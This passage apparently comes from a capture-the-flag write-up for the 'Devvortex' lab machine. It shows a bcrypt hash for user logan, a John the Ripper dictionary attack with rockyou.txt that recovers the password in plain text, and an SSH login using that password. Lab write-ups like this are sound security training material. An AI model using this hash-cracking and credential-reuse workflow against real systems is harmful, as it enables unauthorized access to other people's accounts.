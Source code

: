 ![](./assets/images/devvortex_exploit09.jpg)

**We get the hash of logan user:**
"$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12"

"$$2a\$"

 is a good  indicator of a  bcrypt format, so let’s see if logan user has a weak password and then we are able to crack it.

I will use john and rockyou.txt as dictionary

```bash 
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt mysql_credentials.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:41 DONE (2024-01-19 23:43) 0.02396g/s 33.65p/s 33.65c/s 33.65C/s leelee..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

```bash
Logan's password is: tequieromucho
```


**let’s log in devvortex**

```bash
ssh -l logan htb   
logan@htb's password: 

Last login: Fri Jan 19 23:05:18 2024 from 10.10.14.243
-bash-5.0$ whoami
logan
```
